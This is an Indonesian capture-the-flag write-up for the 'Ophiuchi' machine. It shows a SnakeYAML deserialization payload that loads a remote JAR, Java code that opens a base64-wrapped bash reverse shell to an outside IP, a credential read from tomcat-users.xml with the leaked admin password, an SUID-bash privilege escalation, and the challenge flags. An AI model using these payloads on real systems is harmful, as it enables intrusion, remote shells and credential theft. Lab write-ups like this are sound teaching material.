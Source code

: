 # Ophiuchi

https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858

https://github.com/artsploit/yaml-payload

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.16.29:8089/"]]],
]
```

pada file yaml-payload jalankan

```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

pada file Awesomescriptengine ganti exec jadi seperti ini

```java
String cmd = "bash -i >& /dev/tcp/10.10.16.29/4444 0>&1"; 

String b64Cmd = Base64.getEncoder().encodeToString(cmd.getBytes());
cmd = "bash -c {echo,"+b64Cmd+"}|{base64,-d}|{bash,-i}";
Runtime.getRuntime().exec(cmd);
```

setelah semuanya siap tinggal di compile dan jalankan server kita. lalu panggil dengan payload pertama dan dapat reverse shell. setelah dapat shell jalankan `cat ~/conf/tomcat-users.xml` untuk melihat list user

cred `<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>`

flag user :15c229efbe67f1909d14375e12a92103

Menjalankan sudo -l didapati user bisa run privesc dengan menjalana sebuah file go.

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

Dari sini kita download file main.wasm nya dan dengan bantuan tools https://github.com/WebAssembly/wabt kita coba rubah binary file mainnya supaya bisa menjalankan file deploy.sh dan juga kita membuat file deploy.sh yang berisi chmod +s /bin/bash lalu jalankan sudo go run /opt/wasm-functions/index.go , lalu jalankan bash -p dan kita sudah dalam root group

flag root : f3c2a278e676beba114751dc93e5908b